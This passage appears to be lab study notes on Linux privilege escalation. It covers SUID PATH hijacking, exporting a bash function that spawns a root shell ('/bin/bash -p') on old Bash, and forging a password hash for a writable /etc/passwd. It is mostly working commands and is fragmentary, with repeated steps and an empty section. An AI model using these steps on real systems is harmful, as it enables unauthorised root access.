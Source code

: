 1. Make shell executable service from service.c and same code: ``gcc -o service /home/user/tools/suid/service.c``
2. Set the PATH again `PATH=.:$PATH /usr/local/bin/suid-env `
3. Boom

### Abusing shell features 1

In Bash versions **<4.2-048** it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.
Example: `function /usr/sbin/service { /bin/bash -p; }`
Hunt: 
1. check for bash version
2. check vuln binary `strings /usr/local/bin/suid-env2`
Output:
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start

3. execute 
```
function /usr/sbin/service { /bin/bash -p; }  
export -f /usr/sbin/service
```
4. Exploit: 
```
function /usr/sbin/service { /bin/bash -p; }  
export -f /usr/sbin/service
```
-f = for exporting functions

### Abusing shell features 2


## Writable /etc/passwd

first we need to create password 
`openssl passwd -1 -salt [salt] [password]`
ex:
openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1
